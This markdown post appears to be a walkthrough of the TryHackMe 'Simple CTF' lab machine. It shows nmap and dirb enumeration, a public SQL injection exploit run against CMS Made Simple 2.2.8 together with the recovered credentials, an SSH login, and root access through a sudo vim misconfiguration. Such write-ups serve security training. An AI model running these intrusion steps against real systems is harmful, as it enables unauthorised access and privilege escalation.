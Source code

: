 ```yaml
---
title: "Simple CTF machine on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/simple_ctf.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "A beginner level CTF with a twist. The configuration leave room for errors, keep an eye on the CMS used."
description: "Walkthrough on Simple CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - Simple
  - CMS
  - THM
  - CTF
  - mysql
  - writeup
  - TryHackMe
  - Easy
toc: false
---
```

# Simple CTF

<img src="/assets/images/posts/writeups/simple_ctf.jpg" alt="Simple_Ctf" width="500" class="align-center">

A beginner level CTF with a twist. The configuration leave room for errors, keep an eye on the CMS used.

## Information gathering

### Enumeration

#### Nmap

Command:
```sh
nmap -sC -sV 10.10.169.41
```

Results
```sh
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can\'t get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.35.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Since port 1000 is not displayed a new scan is needed: add UDP (-sU) and TCP SYN scan (-sS) plus specific port number

Command:
```sh
sudo nmap -sS -sV -sU -p 1000 10.10.169.41
```

Results
```sh
PORT     STATE         SERVICE VERSION
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

#### Dirb

Command:
```sh
dirb http://10.10.169.41/ -w /usr/share/wordlists/dirb/common.txt
```

Results
```sh
---- Scanning URL: http://10.10.169.41/ ----
+ http://10.10.169.41/index.html (CODE:200|SIZE:11321)
+ http://10.10.169.41/robots.txt (CODE:200|SIZE:929)
+ http://10.10.169.41/server-status (CODE:403|SIZE:300)
==> DIRECTORY: http://10.10.169.41/simple/
---- Entering directory: http://10.10.169.41/simple/ ----
==> DIRECTORY: http://10.10.169.41/simple/admin/
==> DIRECTORY: http://10.10.169.41/simple/assets/
==> DIRECTORY: http://10.10.169.41/simple/doc/
+ http://10.10.169.41/simple/index.php (CODE:200|SIZE:19913)
==> DIRECTORY: http://10.10.169.41/simple/lib/
==> DIRECTORY: http://10.10.169.41/simple/modules/
==> DIRECTORY: http://10.10.169.41/simple/tmp/
==> DIRECTORY: http://10.10.169.41/simple/uploads/   
```

## Exploitation

### Foothold
1. Checking the link  http://10.10.169.41/simple/ leads to an application called CMS made simple v 2.2.8 
2. Application is vulnerable to SQLi https://www.exploit-db.com/exploits/46635
3. Use the python script to exploit the vulnerability found you will get
``` sh
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

#### Data exfiltration

1. Using user *mitch* and password *secret* connect to SSH custom port (2222) found with nmap
``` sh
ssh mitch@10.10.108.231 -p 2222
```
2. Get user fag: *[UserFlag]*

### Privilege escalation
1. Check sudo privileges
``` sh
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

#### Data exfiltration
1. Using the upper privileged vim you can get the root flag
``` sh
sudo /usr/bin/vim /root/root.txt
```